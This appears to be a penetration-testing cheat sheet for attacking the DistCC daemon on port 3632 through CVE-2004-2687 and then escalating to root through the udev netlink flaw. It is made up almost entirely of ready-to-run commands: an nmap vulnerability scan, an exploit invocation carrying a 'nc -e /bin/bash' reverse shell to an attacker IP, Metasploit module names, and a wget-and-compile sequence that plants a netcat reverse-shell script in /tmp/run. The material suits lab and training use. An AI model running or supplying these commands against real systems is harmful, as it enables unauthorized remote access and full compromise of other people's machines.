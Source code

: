 # DistCC Daemon: Port 3632

1. Detect vulnerability

        nmap -Pn --script vuln -p3632 10.129.28.89

2. Get **shell access** using either of the following methods
   * [distccd_rce_CVE-2004-2687.py](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

            python distccd_rce_CVE-2004-2687.py -t 10.10.10.4 -p 3632 -c "nc -e /bin/bash 10.10.11.2 4444"

   * [Metasploit](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)

            use exploit/unix/misc/distcc_exec

3. **Escalate privilege** by either of the following methods
   * [Netlink 1.4.1](https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html)
  
        Attack `NETLINK 1.4.1`, as it does not verify whether a NETLINK message is originating from the kernel space or not. Local users can gain privilege by sending a NETLINK message from the user space (`/tmp/run`).

            $ wget --no-check-certificate http://www.computersecuritystudent.com/DOWNLOADS/8572 -O exploit-8572.c
            $ gcc exploit-8572.c -o exploit-8572
            $ echo '#!/bin/sh' > /tmp/run
            $ echo '/bin/netcat -e /bin/sh 10.10.10.2 4444' >> /tmp/run
            $ ps -eaf | grep udev | grep -v grep

        [1] Record your PID (2709), 
        [2] subtract 1 (2708), and 
        [3] supply new PID to the next step.

            $ ./exploit-8572 2708

   * [Metasploit](https://www.rapid7.com/db/modules/exploit/linux/local/udev_netlink)

            use exploit/linux/local/udev_netlink

## References

* https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec
* https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html
* https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
* https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html
* https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py
* https://www.exploit-db.com/exploits/21848
* https://www.rapid7.com/db/modules/exploit/linux/local/udev_netlink